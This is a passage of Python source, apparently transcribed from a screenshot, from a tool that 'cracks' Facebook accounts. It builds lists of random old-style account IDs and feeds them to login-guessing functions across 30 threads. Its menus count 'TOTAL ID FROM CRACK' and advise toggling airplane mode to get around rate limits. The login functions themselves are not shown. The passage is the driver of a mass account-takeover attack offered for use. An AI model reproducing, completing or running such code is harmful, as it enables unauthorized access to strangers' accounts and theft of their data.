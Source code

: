 ‎    print('       \x1b[38;5;196m(\x1b[1;37mA\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mMETHOD A')
‎    print('       \x1b[38;5;196m(\x1b[1;37mB\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mMETHOD B')
‎    linex()
‎    meth = input(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mCHOICE {W}(A/B): {Y}").strip().upper()
‎    with tred(max_workers=30) as pool:
‎        ____banner____()
‎        print(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mTOTAL ID FROM CRACK {Y}: {G} {limit}{W}")
‎        print(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mUSE AIRPLANE MOD FOR GOOD RESULT{G}")
‎        linex()
‎        for uid in user:
‎            if meth == 'A':
‎                pool.submit(login_1, uid)
‎            elif meth == 'B':
‎                pool.submit(login_2, uid)
‎            else:
‎                print(f"    {rad}[!] INVALID METHOD SELECTED")
‎                break
‎
‎
‎def old_Tree():
‎    """
‎    Cloning method for accounts from 2009-2010.
‎    """
‎    user = []
‎    ____banner____()
‎    print(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mOLD CODE {Y}:{G} 2009-2010")
‎    ask = input(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mSELECT {Y}:{G} ")
‎    linex()
‎    ____banner____()
‎    print(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mEXAMPLE {Y}:{G} 20000 / 30000 / 99999")
‎    limit = input(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mTOTAL ID COUNT {Y}:{G} ")
‎    linex()
‎    prefix = '1000004'
‎    for _ in range(int(limit)):
‎        suffix = ''.join(random.choices('0123456789', k=8))
‎        uid = prefix + suffix
‎        user.append(uid)
‎    print('       \x1b[38;5;196m(\x1b[1;37mA\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mMETHOD A')
‎    print('       \x1b[38;5;196m(\x1b[1;37mB\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mMethod B')
‎    linex()
‎    meth = input(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mCHOICE {W}(A/B): {Y}").strip().upper()
‎    with tred(max_workers=30) as pool:
‎        ____banner____()
‎        print(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mTOTAL ID FROM CRACK {Y}: {G}{limit}{W}")
‎        print(f"       \x1b[38;5;196m(\x1b[1;37m★\x1b[38;5;196m)\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;46mUSE AIRPLANE MOD FOR GOOD RESULT{G}")
‎        linex()
‎        for uid in user:
‎            if meth == 'A':
‎                pool.submit(login_1, uid)
‎            elif meth == 'B':